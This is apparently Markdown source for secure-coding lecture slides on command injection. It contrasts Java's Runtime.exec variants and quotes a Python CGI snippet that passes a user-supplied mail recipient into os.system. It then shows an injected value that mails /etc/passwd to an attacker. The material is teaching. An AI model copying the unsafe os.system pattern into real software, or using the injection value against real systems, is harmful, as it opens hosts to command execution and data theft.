 Java:

- `Runtime.exec(String[] cmdarray)` is similar to
  C's `execve`
- As opposed to `Runtime.exec(String command)` (the unsafe one)
- Other versions of `Runtime.exec()` expose additional
  functionality.

::: notes

https://docs.oracle.com/javase/7/docs/api/java/lang/Runtime.html

:::

### Example commands in code

Another example
(taken from *Building Secure Software*, p.320).

A Python CGI script processes a submitted web form,
and extracts whatever an end user put in the "mail recipient" field:

::: code

####

\footnotesize


```python
# ... construct a message in /tmp/cgi-mail
os.system("/usr/bin/sendmail" + recipient + "< /tmp/cgi-mail")
```

:::

### Example commands in code

::: code

####

\footnotesize

```python
# ... construct a message in /tmp/cgi-mail
os.system("/usr/bin/sendmail" + recipient + "< /tmp/cgi-mail")
```

:::

The developer *assumes* recipient is
an email address -- e.g. `bob@bigcompany.com`

\pause

But it could be:

`attacker@hotmail.com < /etc/passwd;`

# Metadata
